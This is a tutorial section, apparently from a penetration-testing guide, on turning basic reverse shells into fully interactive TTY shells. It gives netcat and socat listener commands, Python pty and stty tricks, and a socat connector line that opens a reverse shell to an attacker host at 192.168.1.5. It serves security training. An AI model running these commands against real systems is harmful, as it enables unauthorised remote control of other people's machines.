 ## Shell Stabilization and Upgrade Techniques

### **Basic Shell Stabilization**

**What shell stabilization involves:** Converting basic reverse shells into fully interactive TTY shells with proper signal handling, command history, and terminal features.

**Why stabilization is essential:** Basic shells lack important features like tab completion, command history, proper signal handling, and may break with certain commands. Stabilized shells provide full terminal functionality.

```bash
# Initial reverse shell connection (basic, unstable)
# Attacker machine
nc -lvp 4444

# Target machine returns basic shell
# Limited functionality, no job control, breaks easily

# Python TTY stabilization (most common method)
# Inside the basic shell:
python -c 'import pty; pty.spawn("/bin/bash")'
# Or for Python3:
python3 -c 'import pty; pty.spawn("/bin/bash")'

# This provides a proper TTY, but still limited

# Full TTY stabilization process
# Step 1: Spawn TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Step 2: Background the shell (Ctrl+Z)
# [Ctrl+Z pressed]

# Step 3: Configure local terminal
stty raw -echo; fg
# 'stty raw -echo' disables echo and enables raw mode
# 'fg' brings the shell back to foreground

# Step 4: Reset terminal (in the shell)
reset
# This resets terminal settings

# Step 5: Set environment variables
export SHELL=/bin/bash
export TERM=xterm-256color

# Alternative stabilization methods
# Using script command
script -qc /bin/bash /dev/null

# Using expect (if available)
expect -c "spawn bash; interact"

# Using socat for full TTY
# Attacker machine (listener)
socat file:`tty`,raw,echo=0 tcp-listen:4444

# Target machine (connector)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.5:4444

# Why proper stabilization is crucial:
# - Enables interactive programs (vi, nano, su, sudo)
# - Provides proper signal handling (Ctrl+C, Ctrl+Z)
```
